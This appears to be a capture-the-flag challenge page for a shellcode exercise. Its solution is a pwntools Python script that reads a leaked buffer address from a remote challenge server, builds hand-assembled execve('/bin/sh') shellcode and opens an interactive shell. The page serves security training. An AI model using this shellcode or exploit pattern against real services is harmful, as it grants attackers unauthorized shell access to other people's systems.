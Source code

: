 #### Goals
 * Try to find the flag

#### Server Address
 * http://pwn.sniperoj.com:20006/

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# Io = process("./shellcode")
Io = remote("www.sniperoj.cn", 30004)

# read buffer addr
Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

# machine code
xor_esi_esi = "\x31\xf6"
mul_esi = "\xf7\xe6"
mov_rdi_bin_sh_addr = "\x48\xbf" + p64(addr)
mov_al_59 = "\xb0\x3b"
syscall = "\x0f\x05"
jmp_short_8 = "\xeb\x08"

# build payload
bin_sh = "/bin/sh\x00"
shellcode_addr = p64(addr + len(bin_sh))
payload = bin_sh + xor_esi_esi + mul_esi + mov_rdi_bin_sh_addr + jmp_short_8 + shellcode_addr + mov_al_59 + syscall

print "[+] Payload Length : [%d]" % (len(payload))

# send payload
Io.send(payload)

# get shell
Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

